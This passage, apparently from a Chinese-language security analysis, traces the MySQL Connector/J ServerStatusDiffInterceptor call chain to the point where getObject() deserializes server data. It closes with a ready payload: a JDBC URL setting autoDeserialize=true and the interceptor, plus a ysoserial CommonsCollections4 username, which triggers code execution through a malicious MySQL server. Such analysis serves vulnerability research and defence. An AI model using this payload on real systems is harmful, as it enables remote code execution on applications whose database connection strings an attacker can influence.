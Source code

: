 `public ResultSetInternalMethods preProcess(String sql, Statement interceptedStatement, Connection connection) throws SQLException {
    this.underlyingInterceptor.preProcess(sql, interceptedStatement, connection);
    return null;
}` 

调用至com.mysql.jdbc.V1toV2StatementInterceptorAdapter#preProcess()

`public ResultSetInternalMethods preProcess(String sql, Statement interceptedStatement, Connection connection) throws SQLException {
    //此处this.toProxy为ServerStatusDiffInterceptor
    return this.toProxy.preProcess(sql, interceptedStatement, connection);
}` 

调用至com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor#preProcess()

`public ResultSetInternalMethods preProcess(String sql, Statement interceptedStatement, Connection connection) throws SQLException {
    if (connection.versionMeetsMinimum(5, 0, 2)) {
        this.populateMapWithSessionStatusValues(connection, this.preExecuteValues);
    }

    return null;
}` 

调用至com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues()

`private void populateMapWithSessionStatusValues(Connection connection, Map toPopulate) throws SQLException {
    java.sql.Statement stmt = null;
    ResultSet rs = null;

    try {
        toPopulate.clear();
        stmt = connection.createStatement();
        rs = stmt.executeQuery("SHOW SESSION STATUS");
        Util.resultSetToMap(toPopulate, rs);
    } finally {
        if (rs != null) {
            rs.close();
        }

        if (stmt != null) {
            stmt.close();
        }

    }

}` 

调用至com.mysql.jdbc.Util.resultSetToMap(),至此调用链与detectCustomCollations链中com.mysql.jdbc.Util.resultSetToMap()一致，最后调用至getObject()方法，最后进行反序列化。

#### [payload](#toc_payload_5)

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 
